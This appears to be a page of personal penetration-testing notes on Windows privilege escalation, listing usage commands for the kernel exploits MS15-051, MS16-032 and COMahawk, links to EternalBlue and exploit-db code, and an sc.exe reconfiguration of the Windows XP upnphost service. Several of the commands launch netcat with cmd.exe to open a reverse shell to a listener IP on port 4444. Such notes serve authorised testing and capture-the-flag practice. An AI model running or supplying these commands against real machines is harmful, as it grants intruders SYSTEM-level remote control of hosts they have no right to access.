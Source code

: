 ## MS15-051

```
/opt/windows-kernel-exploits/MS15-051/MS15-051-KB3045171/MS15-051.exe

Usage:
.\ms15-051.exe "c:\windows\temp\nc.exe -e cmd.exe 10.10.14.15 4444"
```

## MS16-032

```
/opt/windows-kernel-exploits/MS16-032/x64/ms16-032.exe

Usage:
.\ms16-032.exe
```

## MS17-010 (EternalBlue)

* [https://github.com/dful/MS17-010](https://github.com/dful/MS17-010)

## COMahawk (CVE-2019-1405)

```
.\COMahawk.exe "C:/windows/temp/rev.exe"
```

We can check the windows version by using `winver` command (GUI needed).

![winver command](/hackingnotes/images/winver.png)

* [https://www.exploit-db.com/exploits/47684](https://www.exploit-db.com/exploits/47684)

# Windows XP SP0/SP1 - upnphost

```
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.10.10.10 4444 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

Maybe it will fail due to missing some dependency, try the following:

```
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```
